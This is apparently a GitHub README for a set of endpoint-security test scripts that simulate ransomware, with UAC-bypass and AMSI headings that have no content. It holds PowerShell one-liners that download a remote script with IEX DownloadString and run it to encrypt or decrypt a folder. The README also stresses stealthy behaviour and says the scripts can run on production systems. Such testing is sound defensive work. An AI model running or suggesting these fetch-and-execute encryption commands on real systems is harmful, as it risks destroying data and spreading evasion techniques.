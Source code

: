 # Vendor Simulator Test Scripts

I decided to create the following repository of scripts that can be executed on production environment.
Many customers are using different BAS products with the intention to validate existing EDR vendors.
BAS products can be expensive and hard to comprehend. They also operate within the concept of IOC in mind and mostly do not trigger attack events.

The scripts are created with a mission to validate the prevention capabilities of existing endpoint security solutions.
In most cases, i tried to focus on stealthy and advanced behaviour.

The scripts can be executed on production envirenmnet. 

**Example:**

## Ransomware techniques:

###Encryption - 

`PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/VendorSimTestScripts/main/Invoke-RansomSIM.ps1"); Invoke-RansomSIM -Mode Encrypt -Path 'C:\Users\tester\Documents\Test';`

###Decryption - 

`PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/VendorSimTestScripts/main/Invoke-RansomSIM.ps1"); Invoke-RansomSIM -Mode Decrypt -Path 'C:\Users\tester\Documents\Test';`

## User Account Control Bypass (UAC) 


## Antimalware Scan Interface (AMSI) 